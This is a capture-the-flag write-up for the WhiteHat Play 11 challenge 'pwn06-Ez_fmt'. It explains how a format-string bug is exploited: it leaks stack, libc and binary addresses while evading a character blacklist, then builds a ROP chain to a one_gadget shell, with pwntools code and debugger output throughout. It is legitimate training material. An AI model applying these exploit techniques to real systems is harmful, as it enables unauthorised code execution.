# WhiteHat Play 11 - pwn06-Ez_fmt

Original challenge link: https://wargame.whitehat.vn/thuc-hanh

You can also download challenge files in my repo: [pwn06-Ez_fmt.zip](pwn06-Ez_fmt.zip)

There will be 2 files in zip:
- ez_fmt
- libc.so.6

Download and extract, then patch the libc with the binary with `pwninit` and we can get started!

# 1. Find bug

First, let's check the basic information of challenge file:

```bash
$ file ez_fmt
ez_fmt: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fe96300b43e6543547b027a7f4a625dbb809383, for GNU/Linux 3.2.0, with debug_info, not stripped

$ checksec ez_fmt
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So this is a 64-bit file without being stripped and all the defences are on except canary. Next, we will decompile the file with ghidra to get the main flow.

There are just 2 functions. One is `main()` can be known as follows:



And another one is `restricted_filter()` which will check if our input contains any of these character, including some important character such as `p`, `s`, `x`..., and if it is so, the program will end:


In `main()`, we can see that the function `printf(buf)` is missing format string --> **Format String** bug and that's all.

# 2. Idea

During the play, I cannot solve this chall so I keep trying and I got some hint for this:

> Because we cannot use `%p` but we can use `%c`, `%n`, `%hn` and `%hhn` so we should use `%n` to write to stack the character `p` after the character `%` and we will have `%p` when `printf()`

To modify a data on stack, we will need to know address of stack, or just need 2 or 3 least significant byte so that we can modify the existed stack address on stack. Let's use gdb to analize the stack first by setting breakpoint at printf which has **Format String** and run to that breakpoint:

```gdb
gef➤  disas main
   ...
   0x000055555555534c <+107>:	mov    eax,0x0
   0x0000555555555351 <+112>:	call   0x5555555550c0 <printf@plt>
   0x0000555555555356 <+117>:	jmp    0x555555555312 <main+49>

gef➤  b*0x0000555555555351
Note: breakpoint 1 also set at pc 0x555555555351.
Breakpoint 2 at 0x555555555351: file demo.c, line 52.

gef➤  r
```

And let's check the stack:



The purple highlight is stack address. The range I highlighted green is the maximum input we can enter, `0x50` bytes. We can see there are 2 stack address in our input range. 

We can only change the least significant byte of the first stack address, or the second stack address to point back to our payload. And then with `%n`, we can change several bytes to make a `%p` next to our payload continuously such as this:



The highlighted is 8 `%c` with `104` bytes of pad from `%104c` and we will pad total 112 bytes, which leads to character `p` and the `%n` next will write to that stack address, which pointing to the end of our shellcode, the `\n` bytes. So if we continue executing, it will first write the value `0x00000070` to that stack and will replace the `\n` with character `p`, `%19$\n` will change to `%19$p` and it will be execute to print out the value on stack at that offset:




Execute `printf()` and we get address leaked. So this is the way we will use to leak stack, libc and exe address.

### First idea

With 3 those address, my first idea is to overwrite `__malloc_hook` into `one_gadget` and we can pass `%500000c` to `printf()` to trigger `malloc()` and it worked on local but failed when connect to server.

### Second idea

I then overwrite exit_hook with `one_gadget` and the result is the same as first idea.

### Final idea

For this idea, I think we will need to control the rip right in main, such as when program enter any libc function, it will put the saved rip on to the stack and we will use format string with known stack address to modify that saved rip. So that when it return, it will execute as our wish.

Summary:
- Stage 1: Leak libc
- Stage 2: Leak stack
- Stage 3: Leak exe
- Stage 4: ROPchain with one_gadget

# 3. Exploit

Before we jump in, here is the function for checking if our payload has blacklist character:

```python
def CheckWhiteList(payload):
    print(payload)
    if (b'A' in payload):
       return -1
    if (b'E' in payload):
       return -1
    if (b'F' in payload):
       return -1
    if (b'G' in payload):
       return -1
    if (b'X' in payload):
       return -1
    if (b'a' in payload):
       return -1
    if (b'd' in payload):
       return -1
    if (b'e' in payload):
       return -1
    if (b'f' in payload):
       return -1
    if (b'g' in payload):
       return -1
    if (b'i' in payload):
       return -1
    if (b'o' in payload):
       return -1
    if (b'p' in payload):
       return -1
    if (b's' in payload):
       return -1
    if (b'u' in payload):
       return -1
    if (b'x' in payload):
       return -1
    return payload
```

### Stage 1: Leak stack

Let's debug with gdb-gef and set breakpoint at `printf()` which has **Format Strign** bug, then run until that breakpoint and we can analyze the stack:



We can see there are 2 stack addresses on stack but they don't point to each other. Therefore, we will use the null byte added of `fgets()` to overwrite the least significant byte of first stack address from `0x007fffffffddc7` to `0x007fffffffdd00`. But we want `0x007fffffffdd00` point to the second stack address `0x007fffffffddc6` so that if we use `%n` for `0x007fffffffdd00 → 0x007fffffffddc6`, we can change `0x007fffffffddc6` to point back to our payload position.

So first, we will want to leak the first stack `0x007fffffffddc7` address and then calculate the offset from that leak stack to the address of second stack as follows:

```python
>>> # <Leak stack> - <Address of second stack> = <offset>
>>> 0x007fffffffddc7 - 0x007fffffffdda0 = 0x27
>>> 0x007fffffffddc7 - 0x27 = 0x007fffffffdda0
```

So we will want the leak address subtract with `0x27` will have least significant byte equal to `0x00`, and if so, when we overwrite the first stack `0x007fffffffddc7` with null byte and it becomes `0x007fffffffdd00`, it will point to the second stack address (`0x007fffffffdd00 → 0x007fffffffddc6`).

Now, to leak stack, we can use `%*<k>$` to print first 32-bit data of first stack, which means it will print `ffffddc7`, just first 32-bit of `0x007fffffffddc7`:

```python
while True:
    p = process(exe.path)
    p.recvuntil(b':##\n')

    payload = b'%*9$'
    p.sendline(payload)
    data = p.recvline(timeout=1)
    if not data:
       p.close()
       continue
    stack_leak = u32(struct.pack('<i', int(data[1:-1])))
    if ((stack_leak - 0x27) & 0xff) == 0:
       break
    p.close()
```

Run script and we can see the stack leak:



Because the stack leak can be positive or negative number so we use `struct` to get the correct hex of stack. But due to the check, this stack is not statisfy so script close connection. Until this one:



This stack leak is satisfy and we can check when attach with gdb that if we overwrite null byte to the least significant of the first stack, this first stack will point to the second stack:



And now, we will use `%9$hn` to modify 2 least significant bytes of the second stack to point back to our payload. Now we will want to know how our payload are placed on stack. `%9$p` point to the first stack, so `%10$p` will point to the second stack. As we known that if we want to do `%n` and `%p` at the same time, we will need to use plain format for `%n` first and then we can use the short format `%10$p`. The payload for this looks as following:

```python
payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%10$'
p.sendline(payload)
```

Attach with gdb and we can see:


So the `\n` byte is at address `0x007fffcb029ffb`. Hence, we will overwrite 2 least significant bytes of the second stack address from `0x007fffcb02a026` into `0x007fffcb029ffb`. And the payload for this is:

```python
payload = f'%{(stack_leak & 0xff00) - 5}c%9$hn'.encode()
payload = payload.ljust(0x17, b'B')
p.sendline(payload)
```

So the fully script for leaking stack would be:

```python
payload = f'%{(stack_leak & 0xff00) - 5}c%9$hn'.encode()
payload = payload.ljust(0x17, b'B')
p.sendline(payload)

payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%10$'
p.sendline(payload)

p.recvuntil(b'0x')
stack_leak = int(p.recv(12), 16)
log.info("Stace leak: " + hex(stack_leak))
```

So the first `p.sendline(payload)` will change the second stack to point to the `\n` when we input the second payload. And in second payload, we will `%n` the second stack address to change from `\n` into `p` and we will have `%10$p` to be executed at the same time after `%n` was executed. 

### Stage 2: Leak libc

For leaking libc, the script is the same with script above with a different `%p` to point to the `__libc_start_main_ret`:

```python
payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%19$'            # Change here
p.sendline(payload)

p.recvuntil(b'0x')
libc_leak = int(p.recv(12), 16)
libc.address = libc_leak - 0x24083
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base" + hex(libc.address))
```

### Stage 3: Leak exe

For this stage, it is absolutely the same as 2 stage above:

```python
payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%11$'            # Change here
p.sendline(payload)

p.recvuntil(b'0x')
exe_leak = int(p.recv(12), 16)
log.info("Exe leak: " + hex(exe_leak))
exe.address = exe_leak - 0x13ad
log.info("Exe base: " + hex(exe.address))
```

### Stage 4: ROPchain with one_gadget

We have every address we need. Now we will want to overwrite any saved rip of any function in `main()` so that it can directly jump to our payload directly on the same stack. So overwriting exit hook seems impossible to do a ROP. Hence, we will overwrite the saved rip when function jump into `printf()`. 

Let's get the stack address which point to saved rip when function jump into `printf()` first:



So when it execute `call`, the next instruction of main will be push onto stack at address `0x007ffccd0a65d8`. With the leak stack address when we use `%10$p`, we get `0x007ffccd0a65fb` and the offset from the leak address with the stack address point to saved rip of `printf()` can be calculated as following:

```python
>>> 0x007ffccd0a65fb - 0x007ffccd0a65d8 = 0x23
```

Now, we will want to find some gadget to jump over the first part of our payload because that first part will be used to modify the saved rip of `printf()`:

```bash
$ROPgadget --binary ez_fmt
Gadgets information
============================================================
...
0x00000000000012a0 : add rax, rdx ; jmp rax
0x00000000000012da : add rsp, 0x28 ; pop rbx ; pop rbp ; ret
0x0000000000001016 : add rsp, 8 ; ret
...
```

Yah and we get this gadget at `0x00000000000012da`. If check with our payload, we know that after this gadget is executed, we still have 3 more addresses to do a simple ROP. Anyway, just overwrite saved rip first with this script:

```python
add_rsp_x38 = exe.address + 0x00000000000012da

payload = f'%{add_rsp_x38 & 0xffff}c%8$hn'.encode()
payload = payload.ljust(0x10, b'B')
payload += p64(stack_leak - 0x23)
if CheckWhiteList(payload)==-1:
   log.critical("In blacklist!")
   p.close()
   continue
p.sendline(payload)
```

Let's attach with gdb and stop at `printf()`, then `si` to get the saved rip:



Run until we jump to this gadget and run until `ret` of that gadget to check the registers :



Now, let's get all available one gadget to see if we can use any of them:



We can see not gadget can be satisfy. So we will get the first one_gadget and need to find a `pop r12` in libc to make r12 to null:

```bash
$ ROPgadget --binary libc.so.6 | grep ": pop r12"
...
0x000000000008e230 : pop r12 ; pop r14 ; ret
0x000000000012cf7d : pop r12 ; pop rbp ; ret
0x000000000002f709 : pop r12 ; ret
```

Because we only have 3 address left so just `pop r12` is enough. The final script for this stage is:

```python
add_rsp_x38 = exe.address + 0x00000000000012da
pop_r12 = libc.address + 0x000000000002f709

payload = f'%{add_rsp_x38 & 0xffff}c%8$hn'.encode()
payload = payload.ljust(0x10, b'B')
payload += p64(stack_leak - 0x23)
payload = payload.ljust(0x50-0x18, b'B')
payload += flat(
   pop_r12, 0,
   libc.sym['one_gadget']
   )
if CheckWhiteList(payload)==-1:
   log.critical("In blacklist!")
   p.close()
   continue
p.sendline(payload)
```

Execute script and we can get shell.

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `WhiteHat{Such_4_cr@zy_5umm3r_R4c3}`